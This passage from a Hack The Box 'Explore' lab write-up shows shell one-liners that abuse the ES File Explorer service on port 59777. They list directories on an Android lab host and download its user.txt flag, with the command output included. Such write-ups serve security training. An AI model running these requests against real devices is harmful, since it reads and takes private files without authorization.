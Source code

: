 ```shell
└─$ cat listFiles.out | grep '"type":"file"' | awk -F', ' '{print $1}' | awk -F':' '{print $2}' | tr -d '"' > filenames

┌──(kali@kali)-[~/htb/explore/enum]
└─$ cat listFiles.out | grep '"type":"folder"' | awk -F', ' '{print $1}' | awk -F':' '{print $2}' | tr -d '"' > foldernames
```

In this series of commands, I pulled down all files and folders and created separate lists for files and folders. The folders could be further enumerated using similar commands as those identified above and files could be downloaded using the `getFile` function of the ES Explorer software. Using some one-liners I was able to efficiently iterate through the subdirectories within the root directory and managed to find some interesting files in the `/sdcard` directory:

```shell
┌──(kali@kali)-[~/htb/explore/enum]
└─$  cat foldernames | while read p; do echo "\n\n$p\n--"; curl --header "Content-Type: application/json" -s --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/$p/ | awk -F', ' '{print $1, $3}' | tr -d '{' | tr -d '"'; done | tee nested-ls

…
sdcard
--

name:Android type:folder
name:.estrongs type:folder
name:Download type:folder
name:dianxinos type:folder
name:Notifications type:folder
name:DCIM type:folder
name:Alarms type:folder
name:Podcasts type:folder
name:Pictures type:folder
name:.userReturn type:file
name:user.txt type:file
name:Movies type:folder
name:Music type:folder
name:backups type:folder
name:Ringtones type:folder
]
…

┌──(kali@kali)-[~/htb/explore]
└─$ curl --header "Content-Type: application/json" -s --request POST --data "{\"command\":\"getFile\"}" http://10.10.10.247:59777/sdcard/user.txt
f32017174c…
```

Further focusing my efforts on the `/sdcard` directory, I enumerated its subdirectories:

```shell
┌──(kali@kali)-[~/htb/explore/enum]
└─$ cat sdcard-folders | awk -F' ' '{print $1}' | awk -F ':' '{print $2}' | while read p; do  echo "\n\n$p\n--"; curl --header "Content-Type: application/json" -s --request POST --data "{\"comman
d\":\"listFiles\"}" http://10.10.10.247:59777/sdcard/$p/ | awk -F', ' '{print $1, $3}' | tr -d '{' | tr -d '"'; done | tee sdcard-nested-ls


Android
--

name:data type:folder
]

…
```